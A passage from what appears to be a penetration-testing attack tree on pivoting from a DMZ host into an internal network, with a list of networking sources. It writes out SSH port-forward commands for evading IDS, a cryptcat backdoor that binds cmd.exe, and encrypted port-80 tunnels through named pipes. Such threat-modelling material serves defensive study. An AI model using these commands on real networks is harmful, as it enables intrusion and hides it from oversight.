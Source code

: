 ```text
                (ssh -L 3333:[internalhost]:23 username@[dmzhost])
    3.7 Bypass IDS using two ssh local forwards (OR)
        3.7.1 SSH connection with host in internal network (AND)
        3.7.2 Login to host in DMZ 
                (ssh -L 3333:localhost:3333 username@[dmzhost]) (AND)
        3.7.3 On DMZ host login to host in internal network 
                (ssh -L 3333:localhost:23 username@[internalhost])
    3.8 Setting up attack host as a proxy between DMZ host and a Service host using ssh remote forward (OR)
        3.8.1 Connect to DMZ host with ssh remote forward and connect to 80/tcp of a Service host via the 
                loopback adapter on the DMZ host (ssh -R 80:[servicehost]:80 username@[dmzhost])
    3.9 Bypass IDS and firewall 
            (port 80 is nearly always open and a little more traffic will hardly be noticed) with cryptcat
        3.9.1 Create backdoor to decrypt communications from DMZ host 
                (cryptcat -k SECRETKEY -tlp 23 -e cmd.exe)
        3.9.2 Create named pipes on host in DMZ and attack host
        3.9.3 Create tunnel on host in DMZ 
                (cryptcat -k SECRETKEY -lp 80 <pipe | cryptcat -k SECRETKEY -t [internalhost] 23 >pipe)
        3.9.4 Create listener on attack host to encrypt the traffic to DMZ host 
                (cryptcat -k SECRETKEY -lvp 23 <pipe | cryptcat -k SECRETKEY -t [dmzhost] 80 >pipe)
        3.9.5 Initiate a telnet connection to local forwarder 
                (telnet localhost 23)
```

## Sources

* [Attacking the Spanning-Tree Protocol](https://www.tomicki.net/attacking.stp.php)
* [Cisco: Spanning Tree Protocol](https://www.cisco.com/c/en/us/tech/lan-switching/spanning-tree-protocol/index.html)
* [802.1Q](https://standards.ieee.org/ieee/802.1Q/6844/)
* [pfSense Documentation](https://docs.netgate.com/pfsense/en/latest/index.html)
